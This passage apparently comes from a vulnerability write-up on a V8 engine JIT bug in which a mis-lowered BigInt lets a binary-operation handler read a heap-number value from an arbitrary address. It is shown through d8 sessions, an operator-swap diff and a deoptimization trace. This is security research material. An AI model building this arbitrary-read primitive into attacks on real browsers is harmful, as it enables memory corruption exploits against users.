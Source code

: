 ```javascript
}
```

When reading the implementation of the handler (`BinaryOpAssembler::Generate_AddWithFeedback` in `src/ic/bin-op-assembler.cc`), we observe that for heap numbers additions, the code ends up calling the function `LoadHeapNumberValue`. In that case, it gets called with an arbitrary pointer.

To demonstrate the bug, we use the `%DebugPrint` runtime function to get the address of an object (simulate an infoleak primitive) and see that we indeed (incorrectly) read its value.

```text
d8> var a = new Number(3.14); %DebugPrint(a)
0x025f585caa49 <Number map = 000000FB210820A1 value = 0x019d1cb1f631 <HeapNumber 3.14>>
3.14
d8> setAddress(0x025f585caa49)
undefined
d8> compileOnce()
4.24
```

We can get the same primitive using other kind of ignition bytecode handlers such as `+`, `-`,`/`,`*` or `%`.

```diff
--- var res = 1.1 + y;
+++ var res = y / 1;
```

```text
d8> var a = new Number(3.14); %DebugPrint(a)
0x019ca5a8aa11 <Number map = 00000138F15420A1 value = 0x0168e8ddf611 <HeapNumber 3.14>>
3.14
d8> setAddress(0x019ca5a8aa11)
undefined
d8> compileOnce()
3.14
```

The `--trace-ignition` debugging utility can be interesting in this scenario. For instance, let's say we use a BigInt value of `0x4200000000` and instead of doing `1.1 + y` we do `y / 1`. Then we want to trace it and confirm the behaviour that we expect.

The trace tells us : 

- a deoptimization was triggered and why (insufficient type feedback for binary operation, this binary operation being the division)
- in the input frame, there is a register entry containing the bigint value thanks to (or because of) the incorrect lowering `11: 0x004200000000 ; rcx 66`
- in the translated interpreted frame the accumulator gets the value `0x004200000000 (<Smi 66>)`
- we deoptimize directly to the offset 39 which corresponds to `DivSmi [1], [6]`

```text
[deoptimizing (DEOPT soft): begin 0x01b141c5f5f1 <JSFunction f (sfi = 000001B141C5F299)> (opt #0) @3, FP to SP delta: 40, caller sp: 0x0042f87fde08]
            ;;; deoptimize at <read_heap_number.js:11:17>, Insufficient type feedback for binary operation
  reading input frame f => bytecode_offset=39, args=2, height=8, retval=0(#0); inputs:
      0: 0x01b141c5f5f1 ;  [fp -  16]  0x01b141c5f5f1 <JSFunction f (sfi = 000001B141C5F299)>
      1: 0x03a35e2c1349 ;  [fp +  24]  0x03a35e2c1349 <JSGlobal Object>
      2: 0x03a35e2cb3b1 ;  [fp +  16]  0x03a35e2cb3b1 <Object map = 0000019FAF409DF1>
      3: 0x01b141c5f551 ;  [fp -  24]  0x01b141c5f551 <ScriptContext[5]>
      4: 0x03a35e2cb3d1 ; rdi 0x03a35e2cb3d1 <BigInt 283467841536>
      5: 0x00422b840df1 ; (literal  2) 0x00422b840df1 <Odd Oddball: optimized_out>
      6: 0x00422b840df1 ; (literal  2) 0x00422b840df1 <Odd Oddball: optimized_out>
      7: 0x01b141c5f551 ;  [fp -  24]  0x01b141c5f551 <ScriptContext[5]>
      8: 0x00422b840df1 ; (literal  2) 0x00422b840df1 <Odd Oddball: optimized_out>
      9: 0x00422b840df1 ; (literal  2) 0x00422b840df1 <Odd Oddball: optimized_out>
     10: 0x00422b840df1 ; (literal  2) 0x00422b840df1 <Odd Oddball: optimized_out>
     11: 0x004200000000 ; rcx 66
```